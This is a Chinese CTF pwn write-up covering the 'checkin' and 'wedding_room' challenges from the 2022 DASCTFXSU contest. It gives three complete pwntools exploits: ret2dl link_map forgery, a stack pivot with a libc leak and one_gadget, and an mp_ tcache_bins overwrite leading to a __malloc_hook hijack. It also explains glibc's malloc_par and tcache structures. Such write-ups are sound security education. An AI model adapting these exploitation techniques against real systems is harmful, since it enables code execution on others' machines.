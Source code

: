 ```yaml
---
title: 2022 DASCTFXSU三月春季挑战赛 pwn Writeup
date: 2022-04-20 22:46:59 +0800
categories:
  - ctf比赛
tags:
  - pwn
  - ctf
permalink: /posts/id=12/
pin: false
---
```

## checkin(ret2dl)

这道题在[ret2dl利用总结](https://blog.e4l4.com/posts/ret2dl总结/)这篇文章里做了详细分析，这里贴一下2种EXP

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
p = process('./checkin')
elf = ELF('./checkin')
libc = elf.libc

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rop_addr = 0x404000 + 0x700
pop_rdi_ret = 0x401253
leave_ret= 0x4011e2
main_read = 0x4011bf

def create_fake_link_map_1(fake_addr, known_got, reloc_index, offset):
	target = fake_addr - 8 #the result you write in (any addr)
	fake_link_map = p64(offset & (2**64-1)) #l_addr
	fake_link_map = fake_link_map.ljust(0x30, b'\x00')
	fake_jmprel = p64(target-offset) #r_offset
	fake_jmprel += p64(7) #r_info
	fake_jmprel += p64(0) #r_append
	fake_link_map += fake_jmprel
	fake_link_map += b"/bin/sh\x00"
	fake_link_map = fake_link_map.ljust(0x58, b'\x00')
	return fake_link_map
def create_fake_link_map_2(fake_addr, known_got, reloc_index, offset):
	fake_link_map = p64(0) + p64(leave_ret)
	fake_link_map += p64(fake_addr) #l_info[5] dynstr
	fake_link_map += p64(fake_addr+0x78-8) #l_info[6] dynsym
	fake_link_map += p64(known_got-8) #dynmic symtabg
	fake_link_map += p64(fake_addr+0x30-0x18*reloc_index) #dynmic jmprel
	fake_link_map += b'\x00'*0x70
	return fake_link_map

fake_reloc_arg = 0 # just as one wishes
fake_link_map_addr = rop_addr + 0x48
fake_link_map_1 = create_fake_link_map_1(fake_link_map_addr, elf.got['read'],fake_reloc_arg, libc.sym['system'] - libc.sym['read'])
fake_link_map_2 = create_fake_link_map_2(fake_link_map_addr, elf.got['read'],fake_reloc_arg, libc.sym['system'] - libc.sym['read'])

# 栈迁移
payload= b'\x00'*0xa0 + p64(rop_addr+0xa0) + p64(main_read)
p.send(payload)

payload = p64(pop_rdi_ret) + p64(fake_link_map_addr+0x48)
payload += p64(plt0+6) + p64(fake_link_map_addr) + p64(fake_reloc_arg) +p64(0)*4 + fake_link_map_1
payload += p64(rop_addr+0xa0*2) + p64(main_read)# 0xb0
p.send(payload)

payload = fake_link_map_2 + p64(rop_addr+0xa0*3) + p64(main_read)# 0xb0
p.send(payload)

payload = p64(fake_link_map_addr+0x80-8) + p64(leave_ret) #l_info[23] jmprel
payload = payload.ljust(0xa0, b'\x00')
payload += p64(rop_addr - 0x8) + p64(leave_ret)
p.send(payload)
p.interactive()
```



```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

p = process("./checkin")
elf =ELF('./checkin')
libc = elf.libc

# gdb.attach(p)
payload = b"a"*0xa0 + p64(0x4040c0+0xa0) + p64(0x4011BF)  #buf = 0x4040c0
p.send(payload)

payload = flat([  #csu
    0x404140,    #no use
    0x40124A,  # pop 6
    0,1,      #rbx rbp
    0x404040, # stdout  r12
    0,0,    # r13 r14
    0x404020,  #r15 setvbuf_got
    0x401230,  # ret 
    0,0,   #+8 rbx
    0x404140, #rbp
    0,0,0,0, #12 13 14 15
    0x4011BF #read = put
    ])
payload = payload.ljust(0xa0,b"\x00") + p64(0x404020+0xa0) + p64(0x4011bf) #read 
p.send(payload)
sleep(0.1)

p.send(b"\x50\xc4")
sleep(0.1)
libc_base = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,"\x00")) -0x1ed6a0

success("libc_base:"+hex(libc_base))

p.send(b"a"*0xa0 +p64(libc_base+0xe3b2e)*2 ) 

p.interactive()
```


## wedding_room(mmap申请堆越界修改)

题目没有free，只有一个add和edit，主要利用申请大小无限制

![image-20220403111614976](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220403111614976.png)

![image-20220403111647256](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220403111647256.png)

泄露libc后，思路是去改mp使tcache引索越界，任意申请需要的堆。mp_+80一开始为0x40

![image-20220403110847336](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220403110847336.png)

关于mp\_结构体，glibc的参数管理使用 struct malloc_par，全局拥有一个唯一的 malloc_par实例

```c
struct malloc_par
{
  /* Tunable parameters */
  unsigned long trim_threshold;    /* top chunk 的收缩阈值 */
  INTERNAL_SIZE_T top_pad;         /* 在分配内存时是否添加额外的 pad，默认该字段为 0 */
  INTERNAL_SIZE_T mmap_threshold;  /*  mmap 分配阈值 */
  INTERNAL_SIZE_T arena_test;      /* 当每个进程的分配区数量小于等于 arena_test 时，不会重用已有的分配区 */
  INTERNAL_SIZE_T arena_max;       /* 当系统中的分配区数量达到 arena_max，就不会再创建新的分配区，只会重用已有的分配区 */

  /* Memory map support */
  int n_mmaps;                     /* 当前进程使用 mmap()函数分配的内存块的个数 */
  int n_mmaps_max;                 /* mmap()函数分配的内存块的最大数量 */
  int max_n_mmaps;                 /* mmap()函数分配的内存块的数量的最大值 */
  /* the mmap_threshold is dynamic, until the user sets
     it manually, at which point we need to disable any
     dynamic behavior. */
  int no_dyn_threshold;            /* 否开启 mmap 分配阈值动态调整机制，默认值为 0，即开启 */

  /* Statistics */
  /* mmapped_mem 和 max_mmapped_mem 都用于统计 mmap 分配的内存大小，一般情况下两个字段的值相等 */
  INTERNAL_SIZE_T mmapped_mem;    
  INTERNAL_SIZE_T max_mmapped_mem;

  /* First address handed out by MORECORE/sbrk.  */
  char *sbrk_base;                  /* 堆的起始地址 */

#if USE_TCACHE
  /* Maximum number of buckets to use.  */
  size_t tcache_bins;              /* tcache bins 的数量 */
  size_t tcache_max_bytes;         /* 最大 tache 的大小 */
  /* Maximum number of chunks in each bucket.  */
  size_t tcache_count;             /* 每个 tcache bins 中tcaches 的最大数量 */
  /* Maximum number of chunks to remove from the unsorted list, which
     aren't used to prefill the cache.  */
  size_t tcache_unsorted_limit;
#endif
};
```
这里关于offsetidx的计算纠结了很久，方法就是（目标地址后三位-0x80）/8，再向前移动一位就行

这里(0xab0-0x80)/8=146 即0x1460，所以我们申请0x1450，然后再去布置好counts位

![image-20220403145939733](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220403145939733.png)

![image-20220403150002719](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220403150002719.png)

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
p = process('./wedding_room')
libc = ELF('./libc-2.31.so')

def add(size, length):
    p.sendlineafter(">> \n", '1')
    p.sendlineafter(">> \n", str(size))
    p.sendlineafter(">> \n", str(length))
def edit(index, content):
    p.sendlineafter(">> \n", '2')
    p.sendlineafter(">> \n", str(index))
    p.sendafter(">> \n", content)
def dbg():
    gdb.attach(p)
    pause()

# 修改stdout->write_ptr指针，让它比write_end小这样就能从end开始泄露
add(0x200000, 0x3ee6b8)
libc.address = u64(p.recvuntil("\x7f", timeout = 1)[-6:].ljust(8, b'\x00')) -0x1ee7e0
success("libc_base:\t" + hex(libc.address))
if (libc.address < 0):
    exit(-1)

# 修改mp结构体里的tcache bins的数量为1314
add(0x200000, 0x5ee2c0)

# 改topchunk大小，把oldtopchunk放入unsortbin，再申请一个largechunk
add(0x800, 0x809)
add(0x14000, 0x666) 
add(0x666, 0x666)
edit(4, p32(libc.sym['__malloc_hook'] & 0xffffff))#伪造mallochook地址
add(0x1450, 0x666)# 申请mallochook
edit(5, p64(libc.address + 0xe3b31))#one_gadget
p.sendlineafter(">> \n", b'1')
p.sendlineafter(">> \n", b'0')
p.interactive()
```

## tcache_struct结构

0x250的tcache_struct和0x290的大致相同，区别在于counts段一个大小占一个字节

![image-20220409223332707](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220409223332707.png)

0x290的tcache_struct

![image-20220403180012397](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220403180012397.png)

mp_的查找方法：

`p &mp_`